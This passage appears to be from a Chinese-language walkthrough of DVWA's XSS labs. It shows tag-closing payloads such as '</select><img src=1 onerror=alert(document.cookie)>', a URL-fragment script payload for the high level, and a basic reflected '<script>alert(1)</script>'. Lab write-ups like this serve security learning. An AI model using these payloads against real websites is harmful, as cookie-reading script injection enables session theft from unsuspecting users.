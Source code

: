`<option>`标签里面没有值了。可以选择先闭合option标签，再闭合select标签。  

```html  
</option></select><img src=1 onerror=alert(document.cookie)>  
```

或者直接闭合select  

```html  
</select><img src=1 onerror=alert(document.cookie)>  
```

### high  

```php  
<?php  
  
// Is there any input?  
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {  
  
    # White list the allowable languages  
    switch ($_GET['default']) {  
        case "French":  
        case "English":  
        case "German":  
        case "Spanish":  
            # ok  
            break;  
        default:  
            header ("location: ?default=English");  
            exit;  
    }  
}  
  
?>  
```

URL中`#`号之后的内容，不会被提交到服务器，可以直接与浏览器进行交互  

在正常url后输入：`#<script>alert(document.cookie)</script>`即可。  

## XSS Reflect  

### low  

没做过滤`<script>alert(1)</script>`  

![](/images/dvwa/20.png)  
